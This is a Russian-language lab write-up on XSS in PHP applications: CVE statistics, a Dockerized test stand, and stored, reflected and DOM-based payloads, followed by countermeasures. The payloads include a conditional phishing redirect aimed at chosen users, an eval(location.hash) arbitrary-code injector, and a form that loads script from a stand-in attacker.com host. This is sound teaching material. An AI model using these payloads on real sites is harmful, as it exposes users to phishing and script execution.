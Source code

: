## Безопасная разработка в HTML/CSS и PHP

### I. Теоретическая часть.

В соответствии со статистикой [NST](https://nvd.nist.gov/vuln/search/statistics?form_type=Basic&results_type=statistics&query=php+xss&search_type=all&isCpeNameSearch=false) количество найденных уязвимостей XSS в приложениях, написанных на PHP составило:

в 2021 году - 378, или 1,88% от общего числа уязвимостей (20158)

в 2022 году - 367, или 1,46% от общего числа уязвимостей (25101)

Две новых уязвимости такого класса на 18 апреля 2023 года:

| Уязвимость                                                   | Дата публикации | Описание                                                     |
| ------------------------------------------------------------ | --------------- | ------------------------------------------------------------ |
| [CVE-2022-28353](https://nvd.nist.gov/vuln/detail/CVE-2022-28353) | 15.04.2023      | В плагине предупреждения о внешнем перенаправлении для [MyBB](https://mybb.com/) URL-адрес перенаправления (он же external.php?url=) уязвим для XSS. Служит для выдачи предупреждения перед переходом по внешним ссылкам |
| [CVE-2023-29847](https://nvd.nist.gov/vuln/detail/CVE-2023-29847) | 14.04.2023      | Было обнаружено, что AeroCMS v0.0.1 содержит множество уязвимостей для сохраненных межсайтовых сценариев (XSS) с помощью параметров comment_author и comment_content в /post.php . Эти уязвимости позволяют злоумышленникам выполнять произвольные веб-скрипты или HTML с помощью созданной полезной нагрузки. |



### II. Практическая часть.

Запустим тестовый стенд.

`docker pull ket9/otus-devsecops-xss:latest`
`docker run -d -p 8080:80 --name otus-05 -e tokentimetolive=6000 ket9/otus-devsecops-xss:latest`

#### Stored XSS

Вид атаки, когда результат достигается при открытии пользователем страницы, куда выводится информация, хранящаяся на сервере. Такой тип атаки не требует обязательной фишиноговой подготовки в отношении пользователей, так как вредоносный код доставляется на их машины при посещении зараженного сайта.

В исследуемом сервисе такой вариант атаки доступен через добавление комментария. Например, можно организовать вывод сообщения при каждом открытии страницы со списком комментариев, указав в качестве текста комментария при его добавлении текст:

`My first comment!<script>alert("Congratulations! You was hacked!")</script>`

Можно привести сервис в состояние отказа в обслуживании в части просмотра или добавления комментариев, или выполнить редирект на фишинговый сайт с таким-же дизайном:

`<script>window.location.href="https://google.com"</script>`

В этом случае при открытии страницы с комментариями автоматически будет происходить редирект на указанную ссылку.

Могут быть случаи, когда подобного рода атака должна совершаться в отношении только одного или нескольких пользователей, а другие о ней знать не должны.  Доработав скрипт, мы получим его срабатывание только при наличии в адресной строке параметра **attack** со значением **true**:

`<script>`

`const params = new URLSearchParams(window.location.search);
const attack= params.get("attack");
if(attack==="true") {
    window.location.href="https://google.com"
};
</script>`

Нужным пользователям может быть отправлена должным образом сформированная ссылка фишинговым письмом, а остальные про наличие такой проблемы даже не узнают:

`http://localhost:8080/XSS-1/index.php?attack=true`

#### Reflected XSS

Вид атаки, когда результат достигается после ввода пользователем вредоносного кода. Другое название - неперсистентный XSS, так как вредоносный код не хранится на сервере. Вариант использования такой атаки - фишинговое письмо со ссылкой, содержащей вредоносный код:

`get.php?search=<script>alert("XSS ATTACK!")></script>;`

или через POST-запрос, например, в заранее подготовленной форме:

`form name=TheForm action=http://myapp.com/page.php method=post>`
   `<input type=hidden name=foo value="<script src=http://attacker.com/bad.js></script>;"/>`
`</form>`

В исследуемом приложении такой вид атаки недоступен.

#### DOM-based XSS

Межсайтовые скрипты на основе DOM – это уязвимость, которая появляется в объектной модели документа, а не на HTML-страницах. В этом случае выполняется манипулирование компонентами объектной модели документа, без отправки вредоносного кода на сервер, что существенно усложняет обнаружение такой уязвимости.

Так как в чистом виде этот тип атаки в приложении недоступен, попробуем продемонстрировать его, используя дополнительно Stored XSS.

С помощью простого скрипта и правильно сформированных ссылок мы можем выполнять произвольный код на атакуемой машине:

Добавляем комментарий:

`<script>var l = location.hash.slice(1);eval(l);</script>`

Формируем ссылку:

`http://localhost:8080/XSS-1/#alert('Surprise!')`

И получаем результат:

![surprise](./images/surprise.png)

Особенностью DOM-based атак является то, что они выполняются исключительно на стороне клиента. Это достигается за счет использования символа **#** в ссылке, так как все что находится после него отрезается и на сервер не передается, но доступно в JavaScript на клиенте. То есть в нашем случае для выполнения любоых операций, на которые способен JavaScript, нам достаточно только 1 зараженного комментария.

#### Blind XSS

Подвид Stored XSS, только ориентирован на отложенное срабатывание, и вообще не обязательно в этом приложении. Зачастую используется для атаки на административные панели сервисов.

#### Self XSS

Вид атаки, когда пользователь самостоятельно запускает вредоносный код, например в консоли браузера. 

#### mXSS (mutation-based XSS)

Относительно новый и достаточно опасный вектор атак. Заключается в том, что безопасный с точки зрения HTML-санитайзеров пользовательского ввода скрипт, после его обработки превращается во вредоносный. 

Примеры атаки с использованием этого метода для [Firefox](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C![CDATA[%3C/style%3E%3Cimg%20title=%22]]%26gt;%26lt;/mglyph%26gt;%26lt;img%26Tab;src=1%26Tab;onerror=alert(1)%26gt;%22%3E) и [Chrome-based](https://portswigger-labs.net/mxss/?input=%3Cmath%3E%3Cmtext%3E%3Ctable%3E%3Cmglyph%3E%3Cstyle%3E%3C!--%3C/style%3E%3Cimg%20title=%22--%26gt;%26lt;img%20src=1%20onerror=alert(1)%26gt;%22%3E) браузеров.



### Основные технические способы противодействия XSS-атакам.

Экранирование входных и выходных данных, по возможности избегая самописных решений - лучше использовать или штатные средства языка, или популярные проверенные библиотеки (например, для PHP это Reform или HTML Purifier), отсекая HTML-теги и другие потенциально опасные данные.

Валидация пользовательского ввода.

Использование HTML-санитайзеров.

Установка для cookies, содержащих чуствительные данные флага **httpOnly** - тогда они не будут доступны для чтения через JavaScript.

Явно указывать кодировку страницы, чтобы избежать проблем с экранированием символов **<** и **>**, если они указаны в кодировке **UTF-7** (тогда они имеют вид **+ADw-** и **+AD4-** и скорее всего будут пропущены при валидации или экранировании, а с ними и весь вредоносный скрипт).

Использовать заголовок **Content Security Policy**. Это заголовок, который позволяет в явном виде объявить «белый список» источников, с которых можно подгружать различные данные, например, JS, CSS, изображения и пр. Даже если злоумышленнику удастся внедрить скрипт в веб-страницу, он не выполниться, если не будет соответствовать разрешенному списку источников (при условии внедрения через **script src=...**)

Регулярный анализ новых обнаруженных уязвимостей и обновление зависимостей проекта на версии, в которых обнаруженные уязвимости устранены.
